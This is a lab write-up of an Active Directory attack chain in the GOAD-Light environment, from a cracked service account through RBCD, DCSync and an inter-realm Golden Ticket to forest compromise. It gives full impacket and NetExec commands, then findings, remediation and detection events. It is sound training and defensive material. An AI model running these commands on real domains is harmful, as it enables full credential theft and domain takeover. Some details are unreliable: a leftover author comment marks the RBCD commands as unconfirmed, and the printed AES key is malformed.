# GOAD-Light — Part 2: Domain Admin, DCSync and a Golden Ticket

> **Part 2 of 2.** Part 1 covered reconnaissance and credential access: anonymous enumeration, AS-REP Roasting and Kerberoasting. This part picks up from a cracked service account and follows the path to a forged inter-realm Golden Ticket.

## Contents

- [1. Where Part 1 stopped](#1-where-part-1-stopped)
- [2. Credential validation, revisited](#2-credential-validation-revisited)
- [3. Machine Account Quota](#3-machine-account-quota)
- [4. Creating a machine account](#4-creating-a-machine-account)
- [5. Resource-Based Constrained Delegation](#5-resource-based-constrained-delegation)
- [6. Confirming the access](#6-confirming-the-access)
- [7. DCSync](#7-dcsync)
- [8. The cross-domain trust](#8-the-cross-domain-trust)
- [9. Golden Ticket](#9-golden-ticket)
  - [9.1. Manual forging with impacket-ticketer](#91-manual-forging-with-impacket-ticketer)
  - [9.2. Automated child-to-parent escalation](#92-automated-child-to-parent-escalation)
- [10. Using the ticket](#10-using-the-ticket)
- [11. The full chain](#11-the-full-chain)
- [12. Findings](#12-findings)
- [13. Remediation](#13-remediation)
- [14. Detection](#14-detection)
- [15. Takeaways](#15-takeaways)

## 1. Where Part 1 stopped

At the end of Part 1 two credentials were in hand:

| Account | Password | How |
|---|---|---|
| `brandon.stark` | `iseedeadpeople` | AS-REP Roasting + offline crack |
| `jon.snow` | `iknownothing` | Kerberoasting + offline crack |

Both were validated against SMB and WinRM with mixed results, and the report was honest about it: the `jon.snow` password did not authenticate over SMB. That negative result was the loose thread this part pulls on.

## 2. Credential validation, revisited

Before building anything on top of a credential, it is worth being precise about *which* failure you are looking at. Re-running `jon.snow` against three protocols produces three different answers:

```bash
nxc mssql 192.168.56.0/24 -u jon.snow -p iknownothing
nxc smb   192.168.56.0/24 -u jon.snow -p iknownothing
nxc winrm 192.168.56.0/24 -u jon.snow -p iknownothing
```



Three results, three different causes:

- `KINGSLANDING` returns `STATUS_LOGON_FAILURE` — expected. It sits in `sevenkingdoms.local`, and the account belongs to `north.sevenkingdoms.local`. A failure across a domain boundary says nothing about the credential itself.
- `CASTELBLACK` returns an HTTP read timeout on WinRM — a transport failure, not an authentication failure. Worth checking whether WinRM is simply not listening, rather than concluding the password is wrong.
- `CASTELBLACK` over SMB shows `signing:False` again, which keeps the NTLM relay path alive as a fallback.

The lesson that took a day to internalise: **a failed SMB logon is not a failed credential.** Kerberos-authenticated services (LDAP, MSSQL) can accept the same account that SMB rejects. Verifying through LDAP answers the question that actually matters:

```bash
nxc ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing \
  -d north.sevenkingdoms.local -M maq
```

## 3. Machine Account Quota

That LDAP query returns two facts that shape everything below.



**`MachineAccountQuota: 10`** — the default. Any authenticated domain user may create up to ten computer objects in the domain, without any additional delegated rights. This is not a vulnerability in itself; it is a capability that becomes dangerous the moment an attacker can pair it with write access over an existing computer object.

**`signing:None`, `channel binding:Never`** on LDAP — LDAP signing and channel binding are not enforced, which opens a separate relay avenue documented in the findings but not exercised here.

## 4. Creating a machine account

Adding the computer object is a single command, authenticated as the Kerberoasted service account:

```bash
impacket-addcomputer -computer-name 'TestPC$' -computer-pass 'TestPass!' \
  -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH \
  'north.sevenkingdoms.local/jon.snow:iknownothing'
```



`[*] Successfully added machine account TestPC$ with password TestPass!.`

The account exists, its password is known, and — crucially — it is a computer object, which means it can be granted *delegation rights*. That is the pivot.

## 5. Resource-Based Constrained Delegation

RBCD inverts the delegation model: instead of a service being told which accounts it may impersonate, the *target* resource stores a list of principals allowed to impersonate users to it, in `msDS-AllowedToActOnBehalfOfOtherIdentity`.

Escalation needs two things:

1. **Write access** to that attribute on some computer object — granted here through the lab's misconfigured ACLs.
2. **A principal you control** to put in the list — `TestPC$`, created in step 4.

With both, the flow is: write `TestPC$` into the target's delegation list, request an S4U2Self ticket for `TestPC$`, then S4U2Proxy to obtain a service ticket for the target as `Administrator`.

<!-- CONFIRM: точные команды RBCD (impacket-rbcd / addcomputer / getST) и целевой хост -->

```bash
# 1. Grant TestPC$ the right to delegate to the target computer
impacket-rbcd -delegate-from 'TestPC$' -delegate-to 'WINTERFELL$' -action write \
  -dc-ip 192.168.56.11 'north.sevenkingdoms.local/jon.snow:iknownothing'

# 2. Request a service ticket as Administrator through the delegation
impacket-getST -spn cifs/winterfell.north.sevenkingdoms.local \
  -impersonate Administrator -dc-ip 192.168.56.11 \
  'north.sevenkingdoms.local/TestPC$:TestPass!'
```

The resulting ticket gives service access as `Administrator`. From there the local SAM is readable, and the local Administrator hash is the next stepping stone:

```text
dbd13e1c4e338284ac4e9874f7de6ef4
```

## 6. Confirming the access

The hash is validated across the subnet with WinRM:

```bash
nxc winrm 192.168.56.10-12,22-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4'
```



`(Pwn3d!)` on `WINTERFELL` (`.11`) and `CASTELBLACK` (`.22`). `KINGSLANDING` (`.10`) rejects it — correct, and worth noticing: the hash belongs to the `north` domain's Administrator, not to `sevenkingdoms.local`. The parent domain is still out of reach at this point.

## 7. DCSync

With administrative rights on a domain controller, the domain's secrets are one command away. `secretsdump` does three things in sequence: dumps the local SAM, dumps LSA secrets, then — because the account can replicate — pulls the domain database over DRSUAPI, the same mechanism a legitimate DC uses during replication.

```bash
impacket-secretsdump NORTH/Administrator@192.168.56.11 \
  -hashes :dbd13e1c4e338284ac4e9874f7de6ef4
```



The output is the whole domain in one screen:

- **SAM** — local accounts of `WINTERFELL`;
- **LSA secrets** — the machine account password, DPAPI system keys, `NL$KM`;
- **DRSUAPI** — every domain account with its NTLM hash, including `krbtgt:502`.

`krbtgt` is the end of the line. Its hash signs every Kerberos ticket in the domain, which means it can also *forge* them.

Only afterwards does the size of the blast radius become obvious: `lookupsid` shows every principal in the domain, including the machine account created minutes earlier.

```bash
impacket-lookupsid north.sevenkingdoms.local/Administrator@192.168.56.11 \
  -hashes :dbd13e1c4e338284ac4e9874f7de6ef4
```



`NORTH\TestPC$` (RID 1123) sits at the bottom of the list — a reminder that the entry point was a machine account created by a service account with a dictionary password.

## 8. The cross-domain trust

`sevenkingdoms.local` and `north.sevenkingdoms.local` are in the same forest, joined by a bidirectional trust. Enumerating it from the compromised DC:

```powershell
Get-ADTrust -Filter *
Get-ADTrust -Filter * -Properties SecurityIdentifier | Select-Object Name, SecurityIdentifier
```




Two properties matter:

- `IntraForest : True` — the trust is inside one forest.
- `SIDFilteringForestAware : False` — and intra-forest trusts do not apply SID filtering by design, because forest-internal SIDs are considered trusted.

That combination is the door: a ticket issued in `north` can carry a SID from `sevenkingdoms.local`, and the parent domain will honour it.

The parent domain's SID is `S-1-5-21-674222186-4162831009-1973010302`. Appending `-519` gives the **Enterprise Admins** group — the only group in a forest that is effectively domain-independent.

## 9. Golden Ticket

A Golden Ticket is a TGT forged with the `krbtgt` hash: the KDC never sees a request for it, so there is nothing to revoke short of rotating `krbtgt` twice. Two routes were taken here, and both are worth keeping in the notes.

### 9.1. Manual forging with impacket-ticketer

```bash
impacket-ticketer -nthash <krbtgt NTLM hash> \
  -domain-sid S-1-5-21-741177111-3771100767-3941363745 \
  -domain north.sevenkingdoms.local \
  -extra-sid S-1-5-21-674222186-4162831009-1973010302-519 \
  Administrator
```



Three parameters do the work:

- `-nthash` — the `krbtgt` hash from step 7, the signing key;
- `-domain-sid` — the SID of `north`, so the ticket looks local to the KDC it will be presented to;
- `-extra-sid ...-519` — the Enterprise Admins SID of the *parent* domain, injected into the ticket's SID history.

The ticket is written to `Administrator.ccache`.

### 9.2. Automated child-to-parent escalation

The same result through NetExec's `raisechild` module, which performs the trust enumeration, SID extraction and ticket forging in one step:

```bash
nxc ldap 192.168.56.11 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4' \
  -M raisechild -o ETTYPE=aes256 USER=Administrator USER_ID=500
```



Note the difference in encryption type. The module uses the `krbtgt` **AES256** key rather than the NTLM hash:

```text
[*] krbtgt AES256 key: a025a08ca79fe7582022a4c0b09206a301ff0ad794202c2bf2da98b3ad4c858
[*] Golden ticket forged successfully (etype: aes256). Saved to: Administrator.ccache
```

That is not a detail. Environments that disable RC4 for Kerberos will reject an RC4-signed Golden Ticket outright, while the AES256 variant keeps working. The takeaway: forge with the key type the domain actually accepts.

## 10. Using the ticket

The ticket cache is exported and used directly — no password, no hash, no authentication event on the wire that looks like a normal logon:

```bash
export KRB5CCNAME=Administrator.ccache
nxc smb kingslanding.sevenkingdoms.local -k --use-kcache
```



`[+] NORTH.SEVENKINGDOMS.LOCAL\Administrator from ccache (Pwn3d!)`

`KINGSLANDING` is the domain controller of `sevenkingdoms.local`, the forest root. The ticket minted in the child domain, carrying the parent's Enterprise Admins SID, is accepted there. The forest is compromised.

## 11. The full chain

```text
anonymous SMB  ──► null session  ──► 10 usernames
      │
      ├──► AS-REP Roasting (brandon.stark) ──► iseedeadpeople
      │            │
      │            └──► Kerberoasting (jon.snow) ──► iknownothing
      │                        │
      │                        ├──► MAQ = 10 ──► TestPC$ machine account
      │                        └──► RBCD ──► Administrator hash (local)
      │                                     │
      │                                     ├──► WinRM Pwn3d (WINTERFELL, CASTELBLACK)
      │                                     └──► DCSync ──► krbtgt
      │                                                    │
      └────────────────────────────────────────────────────┴──► Golden Ticket
                                                                   (+ EA SID 519)
                                                                        │
                                                                        └──► KINGSLANDING Pwn3d
```

Every step above was available to a single unprivileged domain user. That is the point of the write-up: no exploit, no CVE, no malware — only default configuration, a weak service password and misconfigured ACLs.

## 12. Findings

| # | Finding | Severity | Affected | MITRE ATT&CK |
|---|---|---|---|---|
| 1 | Kerberoastable service account with a dictionary password | **High** | `jon.snow` | T1558.003 |
| 2 | Write access on a computer object enables RBCD | **High** | computer objects in `north` | T1098 |
| 3 | `MachineAccountQuota` = 10 — any user can create machine accounts | **Medium** | domain-wide | T1136.001 |
| 4 | Domain Administrator hash recovered from a member server | **Critical** | `WINTERFELL` | T1003.002 |
| 5 | DCSync available to a compromised account | **Critical** | `north.sevenkingdoms.local` | T1003.006 |
| 6 | `krbtgt` compromise — Golden Ticket, no revocation without double rotation | **Critical** | `north.sevenkingdoms.local` | T1558.001 |
| 7 | Intra-forest SID history allows cross-domain privilege escalation to Enterprise Admins | **Critical** | forest | T1134.005 |
| 8 | LDAP signing and channel binding not enforced | **Medium** | domain-wide | T1557 |
| 9 | Local Administrator password reuse across servers | **High** | `WINTERFELL`, `CASTELBLACK` | T1078.002 |

## 13. Remediation

**Service accounts and passwords**

- Replace user-account service identities with group Managed Service Accounts and 120-character random passwords; remove SPNs from ordinary user objects.
- Treat a cracked service account as a domain-level incident, not a single-account issue — `jon.snow` alone was enough to reach `krbtgt`.

**Machine accounts and delegation**

- Set `MachineAccountQuota` to `0` unless a workload genuinely needs self-service joins.
- Audit every computer object for `GenericWrite`, `GenericAll`, `WriteDACL` and `WriteProperty` held by non-Tier-0 principals.
- Remove `msDS-AllowedToActOnBehalfOfOtherIdentity` entries that are not explicitly required, and alert on any modification.

**Tier 0 hygiene**

- Windows LAPS for local Administrator passwords — unique per host, rotated.
- Tiered administration: Domain Admin credentials never touch member servers.
- `Protected Users` for privileged accounts; disable NTLM where it is not required.
- Enforce LDAP signing and channel binding.

**`krbtgt` and the forest**

- If `krbtgt` was exposed, rotate it **twice**, with more than ten hours between resets, so both current and previous keys expire.
- Intra-forest trusts cannot be SID-filtered, so the only real control is preventing a child-domain compromise from reaching Tier 0 in the first place: separate administrative boundaries, and no Enterprise Admins SID in ordinary tickets.

## 14. Detection

| Event | Signal |
|---|---|
| `4741` | Computer account created — correlate with the creating user; a service account creating a machine account is almost always malicious |
| `5136` | Directory object modified — watch `msDS-AllowedToActOnBehalfOfOtherIdentity` |
| `4662` | Replication rights used (`DS-Replication-Get-Changes`, `DS-Replication-Get-Changes-All`) from a non-DC host: DCSync |
| `4769` | Service ticket requested with RC4 encryption in an AES-only domain |
| `4768` | TGT requested with an unusual lifetime, or no preceding authentication |
| `4624` type 3 | Network logon with no matching `4768`/`4769` — forged ticket |
| `1102` | Audit log cleared |

The `raisechild` run is a good test case for a detection rule: forging a ticket produces no authentication event at all until the ticket is *used*, which is why the `4624` correlation matters more than watching for `krbtgt` access.

## 15. Takeaways

1. **A failed logon is not a failed credential.** Half a day went into a validation error that was really a domain mismatch and a WinRM timeout.
2. **Default settings are the attack surface.** `MachineAccountQuota: 10` and unfiltered intra-forest SIDs are defaults, not misconfigurations.
3. **A service account is a domain-level asset.** `jon.snow` with `iknownothing` led to `krbtgt` in four steps.
4. **Encryption type matters.** RC4-forged tickets die in AES-only environments; the AES256 key is the one that survives.
5. **The last step is the cheapest.** Forging the ticket took one command; everything before it was enumeration and validation.
